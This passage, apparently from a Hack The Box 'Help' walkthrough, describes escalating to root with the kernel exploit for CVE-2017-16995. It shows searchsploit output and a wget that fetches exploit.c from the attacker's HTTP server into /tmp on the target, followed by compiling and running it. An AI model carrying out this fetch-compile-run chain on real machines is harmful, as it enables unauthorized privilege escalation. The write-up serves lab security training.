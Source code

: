 ### Escalate

Next up I needed to find a way to escalate my privileges in order to get the root flag, and ideally to the root account itself.

As you can see from the screenshot above, when the shell started it showed the kernel version of `4.4.0-116-generic`.  I figured this sounded old enough to run it through searchsploit.

```
root@kali:~/htb/help# searchsploit 4.4.0-116
---------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                |  Path
                                                                                              | (/usr/share/exploitdb/)
---------------------------------------------------------------------------------------------- ----------------------------------------
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                        | exploits/linux/local/44298.c
---------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
That'll do.

### [CVE-2017-16995](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-16995)
#### Description
>The check_alu_op function in kernel/bpf/verifier.c in the Linux kernel through 4.14.8 allows local users to cause a denial of service (memory corruption) or possibly have unspecified other impact by leveraging incorrect sign extension.

I searched github for the CVE ID and found this code from [iBearcat](https://github.com/iBearcat/CVE-2017-16995/blob/master/exploit.c)
He includes instructions in his readme but its just a case of compiling the code on the target and running the resulting binary.

I started a simple HTTP server on my machine to serve up the exploit and got it from the target machine with the reverse shell that was already running.
`python3 -m http.server 6666`

```
help@help:/$ cd /tmp
cd /tmp
help@help:/tmp$ wget http://10.10.14.9:6666/exploit.c
wget http://10.10.14.9:6666/exploit.c
--2019-05-22 13:59:50--  http://10.10.14.9:6666/exploit.c
Connecting to 10.10.14.9:6666... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5775 (5.6K) [text/plain]
Saving to: 'exploit.c'

exploit.c    100%[===================>]   5.64K  --.-KB/s    in 0.01s

2019-05-22 13:59:50 (509 KB/s) - 'exploit.c' saved [5775/5775]

help@help:/tmp$ gcc exploit.c -o makemeroot
gcc exploit.c -o makemeroot
help@help:/tmp$ chmod +x makemeroot
chmod +x makemeroot
help@help:/tmp$ ./makemeroot
./makemeroot
task_struct = ffff880010cbaa00
uidptr = ffff880036aef2c4
```